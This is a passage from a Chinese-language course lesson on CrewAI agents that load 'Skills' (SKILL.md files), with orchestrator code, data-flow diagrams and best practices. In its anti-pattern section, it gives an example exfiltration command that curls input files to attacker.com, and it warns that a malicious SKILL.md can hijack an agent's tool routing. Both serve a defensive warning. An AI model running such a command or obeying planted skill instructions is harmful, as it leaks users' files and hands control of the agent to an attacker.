这里用到了第 14 课的 `create_static_tool_filter`——沙盒暴露了 33 个 MCP 工具，但 Skill Agent 只能看到其中 4 个。这不仅是安全考量，也是性能优化：33 个工具的 schema 全量注入会消耗大量 Token，白名单过滤后只注入 4 个，Agent 的注意力更集中，调用更精准。

### 第四步：主 Agent 编排

主 Agent 是整个流程的"大脑"，它持有 `SkillLoaderTool`，负责理解用户需求、规划子任务、按序调用 Skill。

```python
from crewai import Agent, Task, Crew, Process
from tools.skill_loader_tool import SkillLoaderTool
from tools.intermediate_tool import IntermediateTool
 
def build_main_crew() -> Crew:
    """💡 核心点：工厂函数，SkillLoaderTool 在此实例化
    __init__ 会自动解析 Skills 元数据，构建 XML description"""
    skill_loader = SkillLoaderTool()
 
    orchestrator = Agent(
        role="智能文档处理总管",
        goal="根据用户需求，调度合适的 Skill 完成文档处理任务",
        backstory="""
        你是 Skill 使用助手总管，专注于接收用户需求并调度 Skill 完成任务。
 
        你的工作流程：
        1. 理解用户需求，进行需求分析，用 Save_Intermediate_Product_Tool 记录分析结果
        2. 如果有参考型 Skill，先用 skill_loader 加载，获取操作规范
        3. 规划子任务序列，每个子任务明确预期输出（JSON schema），记录规划
        4. 依次调用任务型 Skill 完成子任务，检查 errcode 确认是否成功
        5. 整合结果，向用户汇报完成情况
 
        行为边界：尽量使用 Skill 完成任务，不要自行编造执行结果。
        """,
        tools=[skill_loader, IntermediateTool()],
        max_iter=15,
        verbose=True,
    )
 
    main_task = Task(
        description="{user_request}",
        expected_output="完整的任务执行报告，包含每个 Skill 的执行结果和最终输出文件路径",
        agent=orchestrator,
    )
 
    return Crew(agents=[orchestrator], tasks=[main_task], process=Process.sequential, verbose=True)
 
 
# ── FastAPI 异步入口 ──────────────────────────────────────────────────────────
async def run_doc_flow(user_request: str) -> tuple[str | None, str]:
    crew = build_main_crew()
    try:
        result = await asyncio.wait_for(
            crew.akickoff(inputs={"user_request": user_request}),
            timeout=300,
        )
        return str(result), ""
    except Exception as exc:
        return None, f"流程执行失败: {type(exc).__name__}: {exc}"
```

用户请求刻意保持自然语言形式（`"请将 ./workspace/data/quarterly_report.pdf 里的关键数据提炼..."` ），不要求用户自己填写沙盒路径——路径转换是主 Agent 的职责，用户只需描述需求。

---

## 六、 深入框架：两阶段加载的底层数据流

如果我们扒开这套架构的黑盒，完整的数据转换链路是这样的：

**第一阶段——启动时的元数据注入：**

```plain
SKILL.md（磁盘）
   │
   ↓ re.match(r"^---\n(.*?)\n---")  # 只读 frontmatter
   │
   ↓ yaml.safe_load()                # 提取 name + description
   │
   ↓ str[:200]                       # 截断到 200 字（强制提炼）
   │
   ↓ 拼装 XML
   │
   └─→ SkillLoaderTool.description 字段
         │
         └─→ LLM function call schema（由 CrewAI 框架序列化注入 system prompt）
               │
               └─→ 主 Agent 知道"有 pdf 和 docx 两个 Skill，分别适用什么场景"
```

**第二阶段——调用时的全文加载与隔离执行：**

```plain
主 Agent 调用 skill_loader(skill_name="pdf", task_context="...")
   │
   ↓ _get_skill_instructions()
   │   re.sub(r"^---\n.*?\n---\n", "", content)  # 剥除 frontmatter
   │   + sandbox_directive（沙盒路径约束）
   │
   ↓ build_skill_crew()（工厂函数，返回新实例）
   │   MCPServerHTTP + create_static_tool_filter（4 工具白名单）
   │   Skill Agent backstory = 完整 SKILL.md 正文 + 沙盒指令
   │
   ↓ crew.akickoff() / asyncio.run()
   │   PDF Skill Agent 在沙盒中按说明书执行：
   │   检测文字层 → 选择提取方式 → 结构化输出 JSON
   │
   └─→ 主 Agent 收到 JSON 结果
         Sub-Crew 上下文消亡，主 Agent context 保持干净
```

有一个精妙的设计值得单独点出：**frontmatter**`description`**字段的 200 字截断**。这不只是性能优化，它还是一种"逼迫机制"——强制 Skill 的作者把核心适用场景提炼成一句话，从源头控制工具描述质量。写不清楚的描述，会被硬截断，主 Agent 看不到完整信息，调用准确率就会下降——这形成了天然的质量反馈。

**关于异步双通道：**

SkillLoaderTool 同时实现了 `_arun()` 和 `_run()` 两个方法，CrewAI 框架在 `tool.arun()` 调用链里自动调 `_arun()`，在 `tool.run()` 调用链里自动调 `_run()`。

为什么需要 `_run()` 里的 `ThreadPoolExecutor`？当主 Crew 通过 `akickoff()` 运行时，已经在一个 event loop 里了。如果在 `_run()` 里直接调 `asyncio.run(sub_crew.akickoff())`，会报 “cannot run nested event loop” 错误。创建一个新线程，就有了独立的 event loop，这个冲突自然消解。

理解了这个原理，你在任何需要"同步函数里调用异步函数"的场景都可以套用这个模式。

---

## 七、 避坑指南：最佳实践与反模式

### 🚫 严重破坏稳定性的"反模式"

**1. 大量相似 Skill 并存，没有统一治理**

**现象**：团队各自开发 Skill，没有命名规范。同时存在 `parse-pdf`、`read_pdf`、`pdf-extract`、`document-pdf` 四个功能高度重叠的 Skill，没有人清楚哪个是"官方版本"。

**致命后果**：主 Agent 路由随机化，A 团队测试时用的是 `parse-pdf`，生产环境偶尔选中 `read_pdf`，行为不一致导致结果不可复现。后期清理时哪个 Skill 被哪些地方依赖都不知道，只能全部保留，技术债越堆越高。

---

**2. 不加审查地信任外部 Skill 来源**

**现象**：直接从网上找 Skill 仓库批量 clone 到 `skills/` 目录就投入使用，没有 Review SKILL.md 的内容，也没有检查 `scripts/` 里的脚本。

**致命后果**：恶意 SKILL.md 可以通过精心构造的 `task_context` 劫持主 Agent 的工具调用路由；`scripts/` 下的脚本在沙盒里拥有完整的 shell 执行权限，一行 `curl http://attacker.com/exfil?data=$(cat /workspace/data/*)` 就能把输入文件的内容外传。来源不明的 Skill，安全风险等同于运行来源不明的 shell 脚本。

---

**3. SKILL.md 超过 500 行不做拆分**

**现象**：把所有文档处理场景（PDF、Word、Excel、PPT、图片 OCR）全写进一个 SKILL.md，洋洋洒洒写了 800 行，认为越详细越好。

**致命后果**：Anthropic 官方测试发现 LLM 对超过 500 行的 SKILL.md 存在注意力衰减，底部的 CRITICAL 约束经常被忽略，导致 Agent 在应该走 OCR 分支的场景却直接用 pypdf 提取，输出乱码。更严重的是，800 行全量注入 Skill Agent backstory，context 超限直接报错。正确做法：按处理类型拆分为独立 Skill，每个保持 200 行以内。

---

**4. 引用链超过两层嵌套**

**现象**：SKILL.md 正文里写"详见 `references/deep-guide.md`"，deep-guide.md 里又引用 `references/advanced/edge-cases.md`"，形成三层引用链。认为这样结构更清晰。

**致命后果**：Claude 的 Skill 执行模式默认只读取 SKILL.md 本身和第一层直接引用文件（且通常只读前 100 行）。第三层文件永远不会被完整读取，等于白写。结果：Agent 执行时缺少关键的边界情况处理规则，在 edge case 上静默失败，开发者还以为规则已经生效。

---

### 💡 稳健落地的"最佳实践"

**1. 能沉淀成 Script 的，少让模型动态生成代码**

**落地心法**：凡是有固定步骤的操作（PDF 文字层检测、DOCX XML 解包、数据清洗逻辑），优先写进 `scripts/` 目录的预制脚本，SKILL.md 指令直接调用脚本路径（`python /mnt/skills/pdf/scripts/extract.py`）。让 LLM 动态生成代码有三个隐患：每次生成结果不稳定、tokens 消耗大、无法做代码 Review。预制脚本是稳定锚点：测试一次通过，百次调用行为一致，还可以进 Git 被版本管理。

---

**2. Skill 作说明书，MCP 做工具——知识层与能力层分离**

**落地心法**：设计时严格划清职责：MCP Server 只暴露原子能力（执行 bash、读写文件、调用 API），Skill 负责把这些能力组合成"有意图的操作序列"。不要在 MCP 工具里嵌入业务逻辑，也不要在 SKILL.md 里定义新的工具 API。这样的好处是：换一套沙盒只需改 MCP Server 配置，换一套操作规范只需改 SKILL.md，两层各自演化，互不影响。这是软件工程里"关注点分离"原则在 AI 系统中的体现。

---

**3. 企业级 Skill 管理四要素：命名规范 + Review 流程 + 版本管理 + 使用统计**

**落地心法**：

- 命名规范：{动词}-{名词} 格式，小写连字符，如 parse-pdf、generate-report；禁止用通用词（process、handle、manage）作为 Skill 名，语义模糊会导致主 Agent 路由混乱
- Review 流程：新 Skill 提 PR，至少一名工程师 Review 业务逻辑，一名安全工程师 Review scripts/ 的权限边界
- 版本管理：load_skills.yaml 进 Git，每次修改走 PR，生产环境总能回滚；在 enabled: false 下线而非直接删除，保留历史
- 使用统计：在 _execute_skill_async 里埋点，记录调用次数、成功率、平均耗时；超过 30 天未调用的 Skill 标记为"待废弃"，定期清理僵尸 Skill

---

## 课程总结

今天，我们走完了 Skills 生态的完整旅程：

- 我们揭开了 Skill 的本质：不是 API，不是 MCP Server，而是“给 LLM 读的结构化操作手册”，由 SKILL.md（说明书）+ scripts/（执行脚本）组成
- 我们理解了 Skills 在企业级场景的真正价值：把私域知识沉淀为 AI 可执行的指令包，知识不再锁在个人脑子里，而是可以共享、迭代、版本化管理
- 我们实现了渐进式披露机制：启动时只加载元数据，调用时按需加载全文，Sub-Crew 提供真正的上下文隔离——无论 Skills 库多大，主 Agent 的上下文永远干净
- 我们厘清了 Skill 与 MCP 的复杂关系：两者合作分工（MCP= 能力层，Skill= 知识层），也存在竞争（Skills 让知识型 MCP 服务变得多余），但 MCP 的权限认证和安全隔离是 Skills 无法替代的企业护城河
- 我们掌握了实战避坑要点：PrivateAttr 处理 Pydantic 实例属性、ThreadPoolExecutor 解决 nested event loop、白名单过滤实现最小权限

掌握了 Skills 生态，你的 Agent 就从"会用工具"升级成了"按专业规范用工具"。更重要的是，你现在有了一套方法论，能把任何领域的专家知识转化成 AI 可复用的 Skills。

**下节课预告：** 既然单个 Agent 已经能优雅地使用 Skill 完成复杂任务了，在一个完整的业务系统里，多个 Agent 如何协作？我们将进入第 17 课实战项目——**XiaoPaw 飞书本地工作助手**，把本模块所有积木（MCP、沙盒、Skills）组装成一个真实可用的企业级工具。我们下节课见！

---

## 课后思考题

在你目前熟悉的业务领域里，有哪些"高频操作"可以沉淀成一个 Skill？尝试描述这个 Skill 的 `SKILL.md` 应该包含哪些关键步骤和 CRITICAL 约束。

提示：从"一个新员工学会做这件事，最容易在哪个步骤出错？出错的后果是什么？"这个角度来设计 CRITICAL 规则。

欢迎在评论区分享你的真实案例，我们下一讲见！
---

来源：极客时间《企业级多智能体设计实战》
提取日期：2026-06-02
